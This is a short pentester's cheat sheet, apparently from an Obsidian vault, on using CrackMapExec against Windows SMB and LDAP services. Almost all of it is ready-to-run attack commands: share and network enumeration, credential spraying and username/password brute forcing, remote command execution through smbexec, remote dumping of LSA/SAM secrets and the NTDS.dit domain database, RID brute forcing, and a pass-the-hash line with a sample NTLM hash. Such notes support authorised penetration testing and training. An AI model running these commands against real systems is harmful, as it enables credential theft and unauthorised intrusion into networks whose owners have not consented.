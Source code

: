 ```yaml
---
tags:
  - linux
  - password-policy
  - SAM-registry-hive
  - lsass
  - smb
---
```

**OUTDATED!** Newer one is [[nxc]]
Attacks: #PtH 
# SMB
```bash
$ crackmapexec smb <IP> --shares -u '' -p ''
```
## Enumerate Network for Systems
```
$ crackmapexec smb <IP> <CIDR>
```
## Test Credentials across Network
```
$ crackmapexec smb <IP> <CIDR> -u <USER> -p <PASS> --sessions
```
>NOTE: Having SMB interaction does not necessarily mean we have full access to them.
## Useful Flags
- `--continue-on-success`: To keep on bruteforcing after a successful login.
- `--local-auth`: If the target is a non-domain joined system.
## SMBExec
```shell-session
$ crackmapexec smb <IP> -u <USER> -p <PASSWORD> -x <COMMAND> --exec-method smbexec
```
>NOTE: If the `--exec-method` is not defined, CME will try to execute the `atexec` method by default
## Extract
### Dump LSA/SAM Remotely
```shell-session
$ crackmapexec smb <IP> --local-auth -u <USER> -p <PASS> --<lsa/sam>
```
### Dump NTDS.dit
```shell-session
$ crackmapexec smb <IP> -u <USER> -p <PASS> --ntds
```
### Logged-on Users
```shell-session
$ crackmapexec smb <CIDR-RAMGE> -u administrator -p <PASSWORD> --loggedon-users
```
### Password Policy
```shell-session
$ crackmapexec smb <IP> -u <USER> -p <PASS> --pass-pol
```
## Bruteforce
### Bruteforce RIDs
```shell-session
$ crackmapexec smb <IP> -u 'guest' -p '' --rid-brute
```
### Bruteforce Username/Passwords
```shell-session
$ crackmapexec smb <IP> -u </path/to/username> -p </path/to/passwords>
```

## Pass the Hash
```shell-session
# crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 [-x <COMMAND>]
```
# LDAP
## Extract Users
```shell-session
$ crackmapexec ldap <IP> -u <USER> -p <PASS> --users
```